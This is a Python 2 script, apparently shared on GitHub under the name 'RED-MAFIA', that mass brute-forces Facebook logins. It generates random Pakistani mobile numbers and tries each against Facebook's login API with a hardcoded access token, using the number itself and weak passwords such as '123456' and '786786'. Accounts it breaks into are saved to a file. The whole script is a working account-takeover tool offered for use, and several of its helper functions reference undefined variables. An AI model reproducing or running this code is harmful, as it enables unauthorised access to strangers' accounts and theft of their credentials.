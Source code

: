 #!/usr/bin/python2
#coding=utf-8
import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,getpass
os.system('rm -rf .txt')
for n in range(10000):
 
    nmbr = random.randint(1111111, 9999999)
    
    sys.stdout = open('.txt', 'a')
 
    print(nmbr)
 
    sys.stdout.flush()
    
try:
    import requests
except ImportError:
    os.system('pip2 install mechanize')
    
try:
    import mechanize
except ImportError:
    os.system('pip2 install request')
    time.sleep(1)
    os.system('Then type: python2 boss404')
 
import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
 
 
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
br.addheaders = [('user-agent','Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]
 
def keluar():
	print 'Thanks.'
	os.sys.exit()
 
def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!'+w[random.randint(0,len(w)-1)]+i
    return cetak(d)
 
 
def cetak(b):
    w = 'ahtdzjc'
    for i in w:
        j = w.index(i)
        x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))
    x += '\033[0m'
    x = x.replace('!0','\033[0m')
    sys.stdout.write(x+'\n')
 
 
def jalan(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(00000.1)
def tik():
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\x1b[1;93mPlease Wait \x1b[1;91m"+o),;sys.stdout.flush();time.sleep(1)
 
 
back = 0
oks = []
id = []
cpb = []
vulnot = "\033[31mNot Vuln"
vuln = "\033[32mVuln"
 
os.system("clear")
print  """
 
                     
\033[1;94mFACEBOOK  AbbasKHAN
                  
\033[1;92mFB PAGE   AbbasHACKER
 
"""
 
####Logo####
 
logo1 = """
  
██████╗ ███████╗██████╗ 
██╔══██╗██╔════╝██╔══██╗
██████╔╝█████╗  ██║  ██║
██╔══██╗██╔══╝  ██║  ██║
██║  ██║███████╗██████╔╝
╚═╝  ╚═╝╚══════╝╚═════╝ 
 
███╗   ███╗ █████╗ ███████╗██╗ █████╗ 
████╗ ████║██╔══██╗██╔════╝██║██╔══██╗
██╔████╔██║███████║█████╗  ██║███████║
██║╚██╔╝██║██╔══██║██╔══╝  ██║██╔══██║
██║ ╚═╝ ██║██║  ██║██║     ██║██║  ██║
╚═╝     ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝
                                                                                      
                                                  
 
╔══──────────────────────────╗─══╗
║ OWNER 💓💓💓RED-MAFIA            ║║
║  GITHUB 💝💝💝 AbbasKHAN(As)   ║ ║
║ FACEBOOK 💝💝💝Abbas-HACKER ║ ║
║  ENJOY 💝💝💝Pak Cloning                ║ ║
║   Note 💝💝💝Use Fastest Speed NeT  ║ ║
╚══──────────────────────────╝─══╝
 
"""
logo2 = """
 
██████╗ ███████╗██████╗ 
██╔══██╗██╔════╝██╔══██╗
██████╔╝█████╗  ██║  ██║
██╔══██╗██╔══╝  ██║  ██║
██║  ██║███████╗██████╔╝
╚═╝  ╚═╝╚══════╝╚═════╝ 
    
███╗   ███╗ █████╗ ███████╗██╗ █████╗ 
████╗ ████║██╔══██╗██╔════╝██║██╔══██╗
██╔████╔██║███████║█████╗  ██║███████║
██║╚██╔╝██║██╔══██║██╔══╝  ██║██╔══██║
██║ ╚═╝ ██║██║  ██║██║     ██║██║  ██║
╚═╝     ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝
                                                            
                                                   
                         DON'T COPY MY SCRIPT
                                      RED-MAFIA          
                                        TNX(As)
╔══──────────────────────────╗─══╗
║OWNER 💓💓💓RED-MAFIA (As)                              ║
║  GITHUB 💝💝💝 RED-MAFIA                             ║
║ FACEBOOK 💝💝💝Abbas-HACKER                 ║
║  ENJOY 💝💝💝Pak Cloning                             ║
║   Note 💝💝💝Use Fastest Speed Net             ║
╚══──────────────────────────╝─══╝
"""
print("""
Owner: RED-MAFIA(A.S)
Facebook: Abbas-HACKER
 
""")
CorrectUsername = "As"
CorrectPassword = "As"
 
loop = 'true'
while (loop == 'true'):
    username = raw_input("\033[1;97m\x1b[1;91mTool Username \x1b[1;97m»» \x1b[1;97m")
    if (username == CorrectUsername):
    	password = raw_input("\033[1;97m \x1b[1;91mTool Password  \x1b[1;97m» \x1b[1;97m")
        if (password == CorrectPassword):
            print "Logged in successfully as " + username 
	    time.sleep(2)
            loop = 'false'
        else:
            print "\033[1;94mWrong Password"
            os.system('xdg-https://wa.me/+923188214452')
    else:
        print "\033[1;94mWrong Username"
        os.system('xdg-https://wa.me/+923188214452')
 
 
numm = [5,2,5,2,2]
##### LICENSE #####
#=================#
def lisensi():
    os.system('clear')
    login()
####login#########
def login():
    os.system('clear')
    print logo1
    print "\033[1;93m[1]\x1b[1;91m══START ( \033[1;92m )"
    time.sleep(0.05)
    print "\033[1;95m[2]\x1b[1;96m ══EXIT "
    time.sleep(0.05)
    print '\x1b[1;94m[0]\033[1;91m ══BACK '
    pilih_login()
 
def pilih_login():
    peak = raw_input("\n\033[1;95m ══CHOOSE : \033[1;93m")
    if peak =="":
        print "\x1b[1;97mFill In Correctly"
        pilih_login()
    elif peak =="1":
        Zeek()
def Zeek():
    os.system('clear')
    print logo1
    print '\x1b[1;93m[1] ══START CLONING  '
    time.sleep(0.10)
    print '\x1b[1;92m[2] ══EXIT'
    time.sleep(0.10)
    print '\x1b[1;95m[0] ══BACK '
    time.sleep(0.10)
    print '\x1b[1;96m ════RK'
    time.sleep(0.10)
    print '\x1b[1;97m════RED-MAFIA'
    time.sleep(0.10)
    print '\x1b[1;91m ════DONT COPY MY SCRIPT'
    time.sleep(0.10)
    print '\x1b[1;94m════CP ID OPEN AFTER 3 DAYS ENJOY'
   
    time.sleep(0.05)
    action()
 
def action():
    peak = raw_input('\n\033[1;97m ══CHOOSE:\033[1;97m')
    if peak =='':
        print '[!] Fill In Correctly'
        action()
    elif peak =="1":              
        os.system("clear")
        print logo2
        print "\033[1;94mEnter any Pakistan Mobile code Number"+'\n'
        print '\033[1;92mEnter any code 01 02 03 04 05 06 07 08 10 11 12 13 14 15 16 20 21 22 23 24 30 31 32 33 34 35 36 40 41 42 43 44 45 46 47 48 49'
        for i in numm:
            print('x' * i)
        try:
            c = raw_input("\033[1;97mCHOOSE : ")
            k="03"
            idlist = ('.txt')
            for line in open(idlist,"r").readlines():
                id.append(line.strip())
        except IOError:
            print ("[!] File Not Found")
            raw_input("\n[ Back ]")
            blackmafiax()
    elif peak =='0':
        login()
    else:
        print '[!] Fill In Correctly'
        action()
    print 50* '\033[1;94m-'
    xxx = str(len(id))
    jalan ('\033[1;91m Total ids Accounts: '+xxx)
    jalan ('\033[1;92mSim code you choose: '+c)
    jalan ("\033[1;93mWait  Start Cracking...")
    jalan ("\033[1;94mTo Stop Process Press Ctrl+z")
    print 50* '\033[1;97m-'
    def main(arg):
        global cpb,oks
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;32m[RK-OK]  ' + k + c + user + '  |  ' + pass1                                       
                okb = open('save/cloned.txt', 'a')
                okb.write(k+c+user+pass1+'\n')
                okb.close()
                oks.append(c+user+pass1)
            else:
                if 'www.facebook.com' in q['error_msg']:
                    print '\033[1;97m[RK-CP] ' + k + c + user + '  |  ' + pass1
                    cps = open('save/cloned.txt', 'a')
                    cps.write(k+c+user+pass1+'\n')
                    cps.close()
                    cpb.append(c+user+pass1)
                else:
                    pass2 = k + nama + user
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;32m[RK-OK]  ' + k + c + user +  '  |  ' + pass2
                        okb = open('save/cloned.txt', 'a')
                        okb.write(k+c+user+pass2+'\n')
                        okb.close()
                        oks.append(c+user+pass2)
                    else:
                        if 'www.facebook.com' in q['error_msg']:
                            print '\033[1;97m[RK-CP] ' + k + c + user + '  |  ' + pass2
                            cps = open('save/cloned.txt', 'a')
                            cps.write(k+c+user+pass2+'\n')
                            cps.close()
                            cpb.append(c+user+pass2)
                        else:
                            pass3="Pakistan"
                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;32m[RK-OK]  ' + k + c + user + '  |  ' + pass3
                                okb = open('save/cloned.txt', 'a')
                                okb.write(k+c+user+pass3+'\n')
                                okb.close()
                                oks.append(c+user+pass3)
                            else:
                                if 'www.facebook.com' in q['error_msg']:
                                    print '\033[1;97m[RK-CP] ' + k + c + user + '  |  ' + pass3 
                                    cps = open('save/cloned.txt', 'a')
                                    cps.write(k+c+user+pass3+'\n')
                                    cps.close()
                                    cpb.append(c+user+pass3)
                                else:
                                    pass4="123456"
                                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                    q = json.load(data)
                                    if 'access_token' in q:
                                        print '\x1b[1;32m[RK-OK]  ' + k + c + user + '  |  ' + pass4 
                                        okb = open('save/cloned.txt', 'a')
                                        okb.write(k+c+user+pass4+'\n')
                                        okb.close()
                                        oks.append(c+user+pass4)
                                    else:
                                        if 'www.facebook.com' in q['error_msg']:
                                            print '\033[1;97m[RK-CP] ' + k + c + user + '  |  ' + pass4
                                            cps = open('save/cloned.txt', 'a')
                                            cps.write(k+c+user+pass4+'\n')
                                            cps.close()
                                            cpb.append(c+user+pass4)
                                        else:
                                            pass5="786786"
                                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                            q = json.load(data)
                                            if 'access_token' in q:
                                                print '\x1b[1;32m[RK-OK]  ' + k + c + user + '  |  ' + pass5
                                                okb = open('save/cloned.txt', 'a')
                                                okb.write(k+c+user+pass5+'\n')
                                                okb.close()
                                                oks.append(c+user+pass5)
                                            else:
                                                if 'www.facebook.com' in q['error_msg']:
                                                    print '\033[1;97m[RK-CP] ' + k + c + user + '  |  ' + pass5 
                                                    cps = open('save/cloned.txt', 'a')
                                                    cps.write(k+c+user+pass5+'\n')
                                                    cps.close()
                                                    cpb.append(c+user+pass5)
                                                                                                                                                                                                                
                                                                                                                                                                                                                
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
 
 
                                                                                                                                                                                                            
                                                                                                                                                                                                                    
                                                                                                                                                                                                            
 
 
 
        except:
            pass
        
    p = ThreadPool(30)
    p.map(main, id)
    print 50* '\033[1;91m-'
    print 'Process Has Been Completed ...'
    print 'Total CP/Ok: '+str(len(oks))+'/'+str(len(cpb))
    print('Cloned Accounts Has Been Saved : save/cloned.txt')
    jalan("Note : Your Offline account Will Open after 10 to 20 days")
    print ''
    print """
 
 
 
\033[1;96mThanks For Using My tool
\033[1;95mFb\033[1;97mRED-MAFIA"""
 
    
    raw_input("\n\033[1;92m[\033[1;92mBack\033[1;95m]")
    login() 
          
if __name__ == '__main__':
    login()
 
